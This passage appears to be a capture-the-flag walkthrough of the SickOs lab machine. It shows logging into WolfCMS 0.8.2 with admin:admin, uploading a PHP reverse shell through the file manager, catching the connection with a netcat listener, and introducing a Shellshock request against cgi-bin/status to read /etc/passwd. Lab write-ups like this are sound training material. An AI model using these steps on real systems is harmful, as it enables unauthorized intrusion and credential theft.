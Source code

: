 **WolfCMS Attack Vector**

Using wolfcms as attack vector for getting root shell with wolfcms 0.8.2 vulnerability. I've found that in this version is affected by Arbitrary File Upload vuln as mentioned in [Exploit-DB](https://www.exploit-db.com/exploits/36818). But, we need a valid credential/session for uploading reverse shell or backdoor for login credential. Trying to use a common weak password like admin:admin, admin:password and other for the login at http://192.168.43.202/wolfcms/?/admin/login

![wolfcms-login]({{ site.url }}/img/wolfcms-login.png)

Input admin:admin for the credential and then it redirected us to administration dashboard. Good news!

So, what's next?

After logging in to administrator dashboard, we can upload PHP reverse shell in file manager feature. 
![wolfcms-upload-file]({{ site.url }}/img/wolfcms-upload-file.png) 

Nah, we can upload the file in `public/images` directory or in `public` directory. For simple php reverse shell, you can download from [PentestMonkey.net](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and change the file with IP and port for the reverse shell as I mentioned above.

```php
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Upload the file, access it(http://192.168.43.202/wolfcms/public/reverse.php) and see an incoming connection in netcat listening session:

```bash
↳ nc -lvp 4443
Listening on [0.0.0.0] (family 0, port 4443)
Connection from 192.168.43.202 56724 received!
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 15:38:55 up 24 min,  0 users,  load average: 0.00, 0.01, 0.03
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Gotcha! We have a reverse shell from our backdoor. Next, exploiting shellsock vulnerability.

**Shellsock Attack Vector**

We will use this attack vector for rooting the machine. If you are don't know about shellsock, you can read the explanation from [coderwall](https://coderwall.com/p/5db5eg/understanding-the-shellshock-vulnerability)

> The **Shellshock** vulnerability, also know as **CVE-2014-6271**, allows attackers to inject their own code into [Bash](http://www.gnu.org/software/bash/) using specially crafted **environment variables**

From nikto scan result, we know that affected endpoint is `cgi-bin/status`. So, we need to test this by sending a malicious crafted request with wget, curl or other tools. For simple Proof, we are sending a request to the affected endpoint with `cat /etc/passwd` for showing `/etc/passwd` content.
